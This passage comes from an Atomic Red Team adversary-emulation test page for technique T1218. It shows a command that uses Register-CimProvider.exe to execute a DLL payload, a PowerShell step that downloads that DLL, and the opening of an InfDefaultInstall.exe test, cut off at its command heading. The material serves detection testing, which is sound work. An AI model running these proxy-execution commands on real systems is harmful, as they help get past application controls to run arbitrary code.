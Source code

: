**Supported Platforms:** Windows

**auto_generated_guid:** ad2c17ed-f626-4061-b21e-b9804a6f3655

#### Inputs:

| Name        | Description    | Type | Default Value                                                   |
| ----------- | -------------- | ---- | --------------------------------------------------------------- |
| dll_payload | DLL to execute | path | PathToAtomicsFolder&#92;T1218&#92;src&#92;Win32&#92;T1218-2.dll |

#### Attack Commands: Run with `command_prompt`!

```cmd
C:\Windows\SysWow64\Register-CimProvider.exe -Path "#{dll_payload}"
```

#### Dependencies: Run with `powershell`!

##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```

<br/>
<br/>

## Atomic Test #3 - InfDefaultInstall.exe .inf Execution

Test execution of a .inf using InfDefaultInstall.exe

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Infdefaultinstall.yml

**Supported Platforms:** Windows

**auto_generated_guid:** 54ad7d5a-a1b5-472c-b6c4-f8090fb2daef

#### Inputs:

| Name           | Description                | Type   | Default Value                                                   |
| -------------- | -------------------------- | ------ | --------------------------------------------------------------- |
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1218&#92;src&#92;Infdefaultinstall.inf |

#### Attack Commands: Run with `command_prompt`!
